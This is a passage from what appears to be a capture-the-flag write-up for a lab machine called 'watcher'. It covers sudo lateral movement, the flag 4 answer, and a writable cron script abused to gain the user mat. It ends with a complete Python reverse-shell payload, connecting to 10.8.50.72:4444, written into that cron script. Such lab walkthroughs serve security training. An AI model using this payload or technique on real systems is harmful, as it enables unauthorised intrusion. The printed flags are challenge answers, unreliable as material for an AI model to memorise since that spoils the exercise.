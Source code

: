 Let's spawn a shell:

~~~
www-data@watcher:/home$ sudo -u toby /bin/bash
sudo -u toby /bin/bash
toby@watcher:/home$ cat /home/toby/flag_4.txt
cat /home/toby/flag_4.txt
FLAG{chad_lifestyle}
~~~

Flag #4: `FLAG{chad_lifestyle}`

# Flag 5

*Hint: https://book.hacktricks.xyz/linux-unix/privilege-escalation#scheduled-cron-jobs*

Only `mat` can read the next flag:

~~~
toby@watcher:/home$ find / -type f -name flag_5.txt -exec ls -l {} + 2>/dev/null
<ype f -name flag_5.txt -exec ls -l {} + 2>/dev/null
-rw------- 1 mat mat 37 Dec  3 01:58 /home/mat/flag_5.txt
~~~

There is a note in `toby`'s home that gives hints:

~~~
toby@watcher:~$ cat note.txt 
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
~~~

Indeed, there is a cron job that runs every minute, executed by `mat`:

~~~
www-data@watcher:/home$ cat /etc/crontab

[REDACTED]

*/1 * * * * mat /home/toby/jobs/cow.sh
~~~

The script is owned by `toby`, we can modify it:

~~~
toby@watcher:~$ ls -l /home/toby/jobs/cow.sh
-rwxr-xr-x 1 toby toby 46 Dec  3 03:31 /home/toby/jobs/cow.sh
~~~

Let's put a reverse shell that will be executed by `mat`:

~~~
$ cat > /home/toby/jobs/cow.sh << EOF
#!/bin/bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.50.72",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
EOF
~~~
